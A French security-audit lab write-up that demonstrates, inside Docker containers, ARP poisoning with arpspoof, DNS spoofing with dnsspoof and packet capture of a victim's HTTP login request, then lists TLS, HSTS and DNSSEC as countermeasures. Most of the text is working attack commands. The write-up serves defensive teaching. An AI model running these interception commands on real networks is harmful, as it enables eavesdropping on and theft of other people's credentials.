




# Audit de sécurité - Plateforme Code un max

### Détourner une résolution DNS et démontrer la nécessité du chiffrement

---

## Étape 1 : Préparer le poste attaquant
Installation des outils nécessaires (`dsniff` pour `arpspoof` et `dnsspoof`, `tshark` pour la capture) et vérification du routage IPv4.

```bash
docker exec attaquant sh -c "apt-get update && apt-get install -y dsniff tshark iproute2 net-tools procps"
```
```bash
docker exec attaquant cat /proc/sys/net/ipv4/ip_forward
```
* **Résultat attendu** : La commande retourne `1`

---

## Étape 2 : Empoisonner le cache ARP de la cible
Mise en place d'un poste client (la victime) sur le réseau, amorçage de son cache ARP, puis exécution de l'empoisonnement ARP bidirectionnel pour intercepter les flux.

### 2.1 Ajouter le poste client et l'amorcer
```bash
docker run -d --name poste-client --network cybersec-audit-codemax_cyberlab-net --ip 10.40.0.30 debian:12 sleep infinity
```
```bash
docker exec poste-client sh -c "apt-get update && apt-get install -y curl"
```
```bash
docker exec poste-client curl -s -o /dev/null -w "%{http_code}" http://10.40.0.10/login.php
```

### 2.2 Relever l'adresse MAC de l'attaquant et lancer la capture
```bash
docker exec attaquant ip -br link show eth0
```
```bash
docker exec -d attaquant sh -c "tshark -i eth0 -w /tmp/mitm.pcap"
```


### 2.3 Lancer l'empoisonnement ARP dans les deux sens
```bash
docker exec -d attaquant arpspoof -i eth0 -t 10.40.0.30 10.40.0.10
```
```bash
docker exec -d attaquant arpspoof -i eth0 -t 10.40.0.10 10.40.0.30
```


### 2.4 Confirmer l'empoisonnement depuis la victime
```bash
docker exec poste-client cat /proc/net/arp
```

* **Résultat** : L'adresse IP de la cible (`10.40.0.10`) pointe désormais vers l'adresse MAC de l'attaquant.

---

## Étape 3 : Préparer le détournement DNS
Création d'un fichier hosts d'attaque sur le poste attaquant et lancement de l'outil `dnsspoof` sur l'interface réseau.

```bash
docker exec attaquant sh -c "echo '10.40.0.20 code-un-max.fr' > /tmp/hosts-attaquant"
```
```bash
docker exec -d attaquant dnsspoof -i eth0 -f /tmp/hosts-attaquant
```

---

## Étape 4 : Intercepter et lire le trafic en clair
Génération d'une requête HTTP depuis le poste victime, extraction des données du fichier `.pcap`, puis arrêt propre des services et nettoyage.

### 4.1 Générer du trafic HTTP depuis la victime
```bash
docker exec poste-client curl -s -o /dev/null -w "%{http_code}" http://10.40.0.10/login.php
```

### 4.2 Extraire les informations du fichier `.pcap`
```bash
docker exec attaquant tshark -r /tmp/mitm.pcap -Y http.request -T fields -e ip.src -e ip.dst -e http.request.uri
```

* **Résultat** : `10.40.0.30      10.40.0.10      /login.php`

### 4.3 Arrêter l'attaque et nettoyer
```bash
docker exec attaquant sh -c "pkill arpspoof; pkill dnsspoof; pkill tshark"
```
```bash
docker rm -f poste-client
```

---

## Étape 5 : Documenter les protections dans le rapport
Synthèse des contre-mesures indispensables pour neutraliser les attaques démontrées :

* **TLS (Transport Layer Security)** :
  * *Attaque contrée* : L'interception, l'écoute passive et la lecture du trafic en clair (Man-In-The-Middle).
  * *Effet* : Chiffre de bout en bout les données applicatives (identifiants, cookies, en-têtes), rendant le flux totalement illisible pour l'attaquant positionné au milieu.

* **HSTS (HTTP Strict Transport Security)** :
  * *Attaque contrée* : Les attaques par rétrogradation de protocole (*downgrade attacks*) et le forçage des connexions initiales non chiffrées en HTTP.
  * *Effet* : Force rigoureusement le navigateur à utiliser exclusivement le protocole HTTPS.

* **DNSSEC (Domain Name System Security Extensions)** :
  * *Attaque contrée* : Le DNS Spoofing / empoisonnement de la résolution de noms.
  * *Effet* : Authentifie cryptographiquement les réponses DNS pour garantir que la victime contacte la véritable adresse IP légitime sans risque de redirection malveillante.